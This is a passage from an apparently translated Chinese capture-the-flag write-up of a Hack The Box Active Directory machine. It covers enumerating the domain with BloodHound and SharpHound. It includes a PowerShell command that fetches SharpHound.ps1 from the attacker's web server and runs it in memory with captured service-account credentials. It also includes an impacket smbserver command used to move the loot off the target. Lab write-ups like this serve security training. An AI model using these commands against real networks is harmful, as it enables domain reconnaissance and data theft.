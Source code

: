 我发现我属于特权 IT 帐户和服务帐户组(提示是用户名以 svc 开头)。由于这是一个域控制器，我然后使用 [BloodHound](https://github.com/BloodHoundAD/BloodHound) (当我解决这台机器时，Bloodhound 3 尚未发布)来自动获取关于域的信息。

## 大猎犬

Bloodhound 是一个 GUI 工具，它使用 neo4j 作为其数据库管理。基本上，一个 ingestor 收集了关于域的大量信息，将它们存储在大量 json 文件中，由 BloodHound 为您处理。这篇文章不是关于如何经营猎犬。我首先使用 SharpHound 收集关于域的信息。

我设置了一个 python http 服务器来服务 SharpHound.ps1，并在机器的内存上运行它，然后运行 Invoke-BloodHound:

```
PS > iex(new-object net.webclient).downloadString('[http://myvpnip/SharpHound.ps1'](http://10.10.14.4/SharpHound.ps1')); Invoke-BloodHound -Collect
ionMethod All -Domain htb.local -LDAPUser svc-alfresco -LDAPPass s3rvice
```

收集的数据将存储在 ZIP 文件中:

![](img/8b1b133b37fcc177b83321ccc5d7fdf9.png)

然后，我使用 SMB 通过 impacket 中的 smbserver 脚本将文件传输到我的机器上:

```
smbserver.py -smb2support -username sifo -password sifo smb smb/
```

将它传输到我的本地计算机:

![](img/9edeaa75ec08c5ec67c5101a7f11306f.png)![](img/0a8865b5dd501d19f2714af66a6d49fb.png)
